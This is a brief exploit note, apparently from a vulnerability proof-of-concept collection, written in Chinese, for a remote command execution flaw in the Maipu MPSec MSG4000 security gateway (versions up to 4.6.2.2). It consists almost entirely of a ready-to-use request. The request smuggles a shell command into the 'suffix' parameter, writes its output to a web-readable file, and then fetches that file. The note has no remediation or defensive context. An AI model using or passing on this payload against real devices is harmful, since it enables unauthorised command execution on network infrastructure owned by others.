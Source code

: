 # 迈普 MPSec MSG4000 安全网关 aaa_lacal_custom_auth_submit 远程命令执行漏洞

    影响版本:version <= 4.6.2.2

```
/webui/g=aaa_lacal_custom_auth_submit&suffix=$(id%7Ctee$%7BIFS%7D../.i9qk41)

GET /.i9qk41
```

